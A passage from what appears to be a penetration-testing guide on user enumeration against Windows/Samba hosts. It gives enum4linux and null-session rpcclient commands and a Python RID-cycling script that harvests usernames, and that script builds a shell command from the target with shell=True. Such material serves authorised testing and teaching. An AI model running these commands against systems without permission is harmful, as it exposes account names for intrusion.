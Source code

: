 ### User Enumeration

#### Using Enum4linux

```bash
# Basic enumeration
enum4linux -a 192.168.1.10

# User enumeration
enum4linux -u administrator -p password -U 192.168.1.10
```

#### RID Cycling

RID (Relative Identifier) cycling is a technique used to enumerate user accounts by incrementally guessing RIDs.

```bash
# Using enum4linux
enum4linux -r 192.168.1.10

# Manual RID cycling using rpcclient
rpcclient -U "" -N 192.168.1.10
> enumdomusers
> queryuser 0x3e8
> queryuser 0x3e9
```

#### Python RID Cycling Implementation

```python
import subprocess
import re

def rid_cycle(target, start_rid=500, end_rid=1500):
    users = []
    
    for rid in range(start_rid, end_rid + 1):
        cmd = f"rpcclient -U \"\" -N {target} -c \"queryuser 0x{rid:x}\""
        try:
            output = subprocess.check_output(cmd, shell=True, stderr=subprocess.STDOUT).decode('utf-8')
            
            # If we get a valid response, extract the username
            if "User Name" in output:
                username_match = re.search(r"User Name\s+:\s+(.+?)\s", output)
                if username_match:
                    username = username_match.group(1)
                    users.append({"rid": rid, "username": username})
                    print(f"[+] Found user: {username} (RID: {rid})")
        except subprocess.CalledProcessError:
            pass
    
    return users

# Example usage
found_users = rid_cycle("192.168.1.10")
print(f"Found {len(found_users)} users")
```
